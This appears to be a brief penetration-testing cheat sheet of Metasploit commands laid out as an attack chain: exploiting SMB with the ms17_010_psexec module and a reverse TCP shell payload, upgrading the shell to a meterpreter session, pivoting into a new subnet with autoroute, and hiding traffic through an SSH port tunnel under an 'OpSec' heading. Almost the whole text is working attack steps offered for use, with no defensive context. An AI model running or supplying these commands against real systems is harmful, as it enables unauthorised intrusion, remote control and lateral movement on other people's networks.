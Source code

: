 ## Initial access

```
use exploit/windows/smb/ms17_010_psexec
set payload windows/shell_reverse_tcp
set LPORT, LHOST, RPORT, RHOST
run
```

## Escalate to the meterpreter session:

```
sessions -l
use post/multi/manage/shell_to_meterpreter
set SESSION 1 
set LPORT 4444
run
sessions -i 2
```

## Pivoting to new subnet

```
use post/multi/manage/autoroute
```
## OpSec ssh port tunnel

ssh -N -L 3000:localhost:3000 ubuntu@IPADDR
